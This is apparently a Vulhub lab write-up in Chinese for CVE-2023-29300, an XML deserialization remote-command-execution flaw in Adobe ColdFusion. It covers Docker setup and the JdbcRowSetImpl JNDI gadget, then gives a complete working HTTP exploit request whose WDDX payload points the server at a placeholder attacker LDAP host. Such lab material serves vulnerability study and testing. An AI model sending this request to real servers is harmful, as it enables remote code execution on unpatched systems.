 # Adobe ColdFusion XML 反序列化命令执行漏洞（CVE-2023-29300）

Adobe ColdFusion是美国Adobe公司的一款动态Web服务器产品，其运行的CFML（ColdFusion Markup Language）是针对Web应用的一种程序设计语言。

Adobe ColdFusion在2018.0.16、2021.0.6、2023.0.0.330468版本及以前，存在一处XML反序列化漏洞。攻击者可以利用该漏洞调用Java中任意setter方法，最终执行任意命令。

参考链接：

- <https://blog.projectdiscovery.io/adobe-coldfusion-rce/>
- <https://xz.aliyun.com/t/13413>

## 漏洞环境

启动一个Adobe ColdFusion 2018.0.15服务器：

```
docker compose up -d
```

等待一段时间后环境启动成功，访问`http://your-ip:8500/CFIDE/administrator/index.cfm`，输入密码`vulhub`，即可成功安装Adobe ColdFusion。

## 漏洞复现

要利用这个漏洞，需要先找到一个可利用的setter方法作为Gadget。最常见的Gadget是利用`com.sun.rowset.JdbcRowSetImpl`来进行JNDI注入，并执行任意命令。

你可以使用<https://github.com/java-Chains/web-chains>启动一个恶意LDAP服务器，并生成基于`CommonsBeanutils1`利用链的payload：

![](1.png)

然后，将恶意LDAP地址替换到如下请求中发送：

```
POST /CFIDE/adminapi/accessmanager.cfc?method=foo&_cfclient=true HTTP/1.1
Host: localhost
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.134 Safari/537.36
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 333

argumentCollection=<wddxPacket version='1.0'><header/><data><struct type='xcom.sun.rowset.JdbcRowSetImplx'><var name='dataSourceName'><string>ldap://your.ldap.server/example</string></var><var name='autoCommit'><boolean value='true'/></var></struct></data></wddxPacket>
```

可见，`touch /tmp/success`已被成功执行：

![](2.png)
